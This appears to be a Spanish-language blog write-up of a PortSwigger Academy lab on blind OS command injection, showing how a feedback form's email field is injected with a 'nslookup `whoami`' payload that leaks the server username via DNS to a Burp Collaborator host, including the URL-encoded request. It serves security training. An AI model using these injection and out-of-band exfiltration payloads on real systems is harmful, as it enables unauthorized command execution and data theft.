 +++
author = "Alux"
title = "Portswigger Academy Learning Path: OS Command Injection Lab 5"
date = "2021-12-02"
description = "Lab: Blind OS command injection with out-of-band data exfiltration"
tags = [
    "command injection",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind OS command injection with out-of-band data exfiltration

En este <cite>laboratorio[^1]</cite>la finalidad es obtener ejecucion de comandos en el sitio web, pero ya que no se recibe respuesta hay que realizar una consulta hacia el dns o una web para saber que se ejecuto la secuencia correctamente.

## Reconocimiento

La web cuenta con un formulario para el envio de feedback hacia el correo del servidor.

![Web](web.png)

Hasta ahi todo bien pero hace una peticion que lo que hace es enviar el correo por medio de una consulta por terminal de `mail` que es para el envio de correo por terminal linux.

![Solicitud de imagen](request.png)

El tipo de ejecucion que se hace al backend es:

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

## Explotacion

Lo que haremos es inyectar otros parametros para poder ejecutar otros comandos, y queremos ejecutar la siguiente consulta para que nos devuelva el nombre del usuario que esta ejecutando el script

```bash
mail -s "This site is great"  || nslookup `whoami`.n5trm2vov2yg13fnkvptzh6dd4jvdj2.burpcollaborator.net ||   -aFrom:peter@normal-user.net feedback@vulnerable-website.com & nslookup url.burpcollaborator.net
```

Por lo que la peticion quedaria asi (codificada en formato URL)

```
csrf=19jGeYaNMECUmKvnBJNL0vXbIEuE06Cj&name=name&email=email%40mail.com+||+nslookup+`whoami`.n5trm2vov2yg13fnkvptzh6dd4jvdj2.burpcollaborator.net+||+&subject=subject&message=message+%26+nslookup+co4yszdbwhw8owp25ugijgpwinoec3.burpcollaborator.net
```

Y obtenemos una ejecucion de comandos dentro del servidor enviando el request.

![Solicitud de archivo passwd](request2.png)

Y viendo la respuesta de burp collaborator permite ver como se ha hecho la solicitud:

![Burp Collaborator](request3.png)

Y con esto hemos resuelto el lab

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)